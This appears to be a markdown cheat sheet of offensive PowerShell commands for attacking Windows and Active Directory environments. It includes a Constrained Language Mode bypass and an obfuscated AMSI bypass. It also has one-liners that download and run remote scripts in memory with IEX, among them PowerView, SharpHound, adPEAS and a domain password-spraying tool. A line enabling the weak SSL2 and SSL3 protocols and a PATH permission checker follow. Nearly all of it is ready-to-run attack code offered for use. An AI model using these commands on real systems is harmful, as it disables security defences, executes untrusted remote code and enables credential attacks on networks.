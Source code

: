 ### Bypasses
------------
##### Powershell CLM Bypass:
~~~
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"
Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe  -ExecutionPolicy bypass"
sleep 5
#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
~~~

##### Powershell Obfuscated AMSI Bypass:
~~~
$w='System.Management.Automation.A';$c='si';$m='Utils'
$assembly=[Ref].Assembly.GetType(('{0}m{1}{2}'-f$w,$c,$m))
$field=$assembly.GetField(('am{0}InitFailed'-f$c),'NonPublic,Static')
$field.SetValue($null,$true)
~~~

##### Powershell Modified AMSI .Net Bypass script - In Memory
~~~
IEX (New-Object Net.Webclient).DownloadString('https://gist.githubusercontent.com/shantanu561993/6483e524dc225a188de04465c8512909/raw/db219421ea911b820e9a484754f03a26fbfb9c27/AMSI_bypass_Reflection.ps1')
~~~

### Scripts - In Memory
-----------------------
#### Host Recon
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/dafthack/HostRecon/master/HostRecon.ps1');
Invoke-HostRecon
~~~

#### ConvertTo-PowerShell
~~~
IEX (New-Object Net.Webclient).DownloadString('https://github.com/cfalta/PowerShellArmoury/raw/2d9bea5e1c10353186fe75ebc28c5e596247dca3/utilities/ConvertTo-Powershell.ps1');
~~~

##### Powerview
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
~~~

##### Spray
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/DomainPasswordSpray/master/DomainPasswordSpray.ps1'); Invoke-DomainPasswordSpray -Domain <domain> -Password password
~~~
##### Sharphound
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1'); Invoke-BloodHound -Domain <domain> -CollectionMethod All
~~~
##### Safe SSL/TLS-Channel
~~~
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Ssl3 -bor [
Net.SecurityProtocolType]::Ssl2 -bor [Net.SecurityProtocolType]::Tls -bor [Net.SecurityProtocolType]::Tls11 -bor [Net.Se
curityProtocolType]::Tls12
~~~
##### BloodHound collector (adPEAS)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/6110
6960/adPEAS/main/adPEAS.ps1'); Invoke-adPEAS -Module Bloodhound -Scope All
~~~
##### Check PATH of host and permissions on each folder in PATH (PowerShell function)
~~~
function Invoke-PathCheck {
    param (
        [string]$AccesschkPath = "C:\Path\to\accesschk64.exe"
    )

    # Controleer of accesschk64.exe bestaat
    if (-Not (Test-Path $AccesschkPath)) {
        Write-Host "accesschk64.exe not found at $AccesschkPath"
        return
    }

    # Split de $Env:Path en controleer permissies voor elke map
    $Env:Path -split ";" | ForEach-Object {
        $path = $_.Trim()
        if (-Not [string]::IsNullOrWhiteSpace($path)) {
            Write-Host "Checking permissions for: $path"
            & $AccesschkPath -wvud -accepteula $path
            Write-Host "---------------------------"
        }
    }
}

# Roep de functie aan
Invoke-PathCheck -AccesschkPath "C:\Path\to\accesschk64.exe"
~~~
